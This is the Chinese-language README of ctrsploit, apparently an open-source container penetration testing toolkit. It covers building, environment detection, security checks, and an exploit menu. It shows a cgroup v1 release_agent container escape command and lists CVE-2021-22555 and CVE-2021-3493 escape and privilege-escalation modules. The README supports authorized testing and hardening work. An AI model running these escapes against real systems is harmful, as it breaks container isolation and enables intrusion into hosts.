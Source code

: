 # ctrsploit: 一个容器场景自动化渗透测试工具

[English Version](./README.md)

ctrsploit 读作container sploit , 遵循 [sploit-spec](https://github.com/ctrsploit/sploit-spec) v0.4.3

## 为什么我们需要ctrsploit

[这里](https://github.com/ctrsploit/ctrsploit/discussions/11)有详细解释

## Pre-Built Release

https://github.com/ctrsploit/ctrsploit/releases

## 手动编译

### 容器编译

```bash
export APT_MIRROR=repo.huaweicloud.com
export GOPROXY=https://goproxy.cn,https://goproxy.io,direct
make binary && ls -lah bin/release
```

### 本地编译

```
make build-ctrsploit
```

## Usage

### Quick-Start

```
wget -O ctrsploit https://github.com/ctrsploit/ctrsploit/releases/download/v0.4/ctrsploit_linux_amd64 && chmod +x ctrsploit
./ctrsploit --help
NAME:
   ctrsploit - A penetration toolkit for container environment

ctrsploit is a command line ... //TODO


USAGE:
   ctrsploit [global options] command [command options] [arguments...]

COMMANDS:
   auto              auto
   where, w          detect whether you are in the container, and which type of the container
   graphdriver, g    detect graphdriver type and extend information
   cgroups, c        gather cgroup information
   capability, cap   show the capability of pid 1 and current process
   seccomp, s        show the seccomp info
   apparmor, a       show the apparmor info
   selinux, se       show the selinux info
   fdisk, f          like linux command fdisk or lsblk // TODO
   kernel, k         collect kernel environment information
   namespace, n, ns  check namespace is host ns
   help, h           Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --lang value  language for the greeting (default: "english")
   --help, -h    show help (default: false)
```

### 信息收集

usage

```
root@ctr:/# ./ctrsploit env
NAME:
   ctrsploit env - gather information

USAGE:
   ctrsploit env command [command options] [arguments...]

COMMANDS:
   where, w        detect whether you are in the container, and which type of the container
   graphdriver, g  detect graphdriver type and extend information
   cgroups, c      gather cgroup information
   help, h         Shows a list of commands or help for one command

OPTIONS:
   --help, -h  show help (default: false)
```

查看当前是否在容器内，在何容器内：

```
root@ctr:/# ./ctrsploit  env  w

===========Container===========
[Y]  Is in Container

===========Docker===========
[Y]  .dockerenv exists
[N]  rootfs contains 'docker'   
[N]  cgroups contains 'docker'
[Y]  the mount source of /etc/hosts contains 'docker'   
[Y]  hostname match regex ^[0-9a-f]12$
---
[Y]  => Is in docker

===========k8s===========
[N]  /var/run/secrets/kubernetes.io exists
[N]  hostname match k8s pattern
[N]  the mount source of /etc/hosts contains 'pods'
[N]  contains 'kubepods'
---
[N]  => is in k8s 
```

### 漏洞利用

```
root@2aa13a052102:/# ./ctrsploit e
NAME:
   ctrsploit exploit - run a exploit

USAGE:
   ctrsploit exploit command [command options] [arguments...]

COMMANDS:
   cgroupv1-release_agent, ra                       escape tech by using the notify_on_release of cgroup v1
   cgroupv1-release_agent-unknown_rootfs, ra3       escape tech by using the notify_on_release of cgroup v1 without known rootfs
   help, h                                          Shows a list of commands or help for one command

OPTIONS:
   --help, -h  show help (default: false)

```

例如: 使用'cgroupv1-release_agent'技术逃逸:

```
root@host # docker run -ti --rm --security-opt="apparmor=unconfined" --cap-add="sys_admin" busybox
root@ctr # wget -O ctrsploit https://github.com/ctrsploit/ctrsploit/releases/download/v0.4/ctrsploit_linux_amd64 && chmod +x ctrsploit
root@ctr # ./ctrsploit e ra -c "cat /etc/hostname"
```

### 安全检查

在容器内执行`ctrsploit checksec`或执行单独的二进制文件`checksec`

```
[root@ctr ~]# /checksec_linux_amd64 
===========Seccomp=========
kernel supported: ✔
seccomp enabled in current container: ✘

===========Apparmor=========
Kernel Supported: ✘
Container Enabled: ✘

===========Cgroups=========
is cgroupv1: ✔
is cgroupv2: ✘

------sub systems-------
["perf_event" "memory" "net_cls" "cpuset" "blkio" "hugetlb" "files" "cpu" "cpuacct" "pids" "rdma" "freezer" "devices" "net_prio"]

--------top level subsystem----------
["rdma"
```

## 详细信息

### env

| 子命令                              | 简写    | 描述                         |
|----------------------------------|-------|----------------------------|
| [auto](./env/auto)               |       | 自动收集环境信息                   |
| [where](./env/where)             | w     | 检测你是否在容器内，在何种类型的容器内        |
| [graphdriver](./env/graphdriver) | g     | 检测graphdriver类型和扩展信息       |
| [cgroups](./env/cgroups)         | c     | 收集cgroup信息                 |
| [capability](./env/capability)   | cap   | 显示pid为1的进程和当前进程的capability |
| [seccomp](./env/seccomp)         | s     | 显示seccomp信息                |
| [apparmor](./env/apparmor)       | a     | 显示apparmor信息               |
| [namespace](./env/namespace)     | n, ns | check namespace is host ns |

### exploit

| exploit                                                                                  | 缩写    | 简述                                                     |
|------------------------------------------------------------------------------------------|-------|--------------------------------------------------------|
| [cgroupv1-release_agent](./exploit/cgroupv1-release_agent)                               | ra    | 利用cgroup v1的notify_on_release功能的逃逸技术                   |
| [cgroupv1-release_agent-unknown_rootfs](./exploit/cgroupv1-release_agent-unknown_rootfs) | ra3   | 在不知道rootfs在宿主机路径时，利用cgroup v1的notify_on_release功能的逃逸技术 |
| [cve-2021-22555_ubuntu18.04](./exploit/CVE-2021-22555_ubuntu18.04)                       | 22555 | 利用CVE-2021-22555的逃逸技术 (ubuntu18.04)                    |

### helper

| helper                                  | 缩写                       | description           |
|-----------------------------------------|--------------------------|-----------------------|
| [cve-2021-3493](./helper/cve-2021-3493) | ubuntu-overlayfs-pe,3493 | Ubuntu OverlayFS 本地提权 |

### checksec

在容器内执行`ctrsploit checksec`或执行单独的二进制文件`checksec`